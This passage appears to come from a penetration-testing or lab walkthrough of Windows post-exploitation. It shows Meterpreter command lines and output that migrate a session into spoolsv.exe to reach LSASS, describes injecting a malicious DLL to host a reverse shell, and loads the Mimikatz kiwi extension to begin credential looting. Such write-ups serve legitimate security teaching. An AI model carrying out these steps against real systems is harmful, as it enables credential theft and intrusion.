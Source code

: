 Our target process is:
```bash
 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 700  592   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe
```

> Note: if you get a timeout error, use this command to set the timeout to last for 30 seconds
```bash
sessions --interact <id> --timeout 30
```

Even though hwe ave SYSTEM-level access and a lot of powerful privileges, including:

- SeDebugPrivilege — lets a process debug (and access memory of) other processes.
- SeImpersonatePrivilege — used for token stealing.
- SeLoadDriverPrivilege — lets you load unsigned drivers (which can defeat protections).
- SeTakeOwnershipPrivilege — can let you take control of system objects.

We can't interact with `lsass.exe` process, and the reason for that is: 
- We're in `SysWOW64\powershell.exe`, which is 32-bit
- `lsass.exe` is 64-bit
- A 32-bit process cannot access the memory of a 64-bit process, even with `SeDebugPrivilege`

So, to interact with LSASS, we need to be “living in” a process that is the same architecture as the LSASS service (`x64` in the case of this machine) and a process that has the same permissions as LSASS. 

This is achived using **DLL injection**:
- Pick a legitimate process (e.g., `spoolsv.exe`)
- Inject a malicious DLL into that process, 
- Then DLL starts a new thread — this thread is your reverse shell, Meterpreter, or payload. 
- Now your shell "lives inside" that process

Use `migrate -N <process name>` to migrate to a process that has the same arc and permissions as the `lsass.exe` process. 
```bash
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2712 to 1368...
[*] Migration completed successfully.
meterpreter > 
meterpreter > getpid
Current pid: 1368
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
> Note: I get disconnected from the target machine, that's why the pid of 2712 is different from earlier. 

Now we are successfully migrated to the spooler process.
```bash
1368  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
```

Start the looting process using Mimikatz tool. (Kiwi is the updated version of Mimikatz)
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > help kiwi

```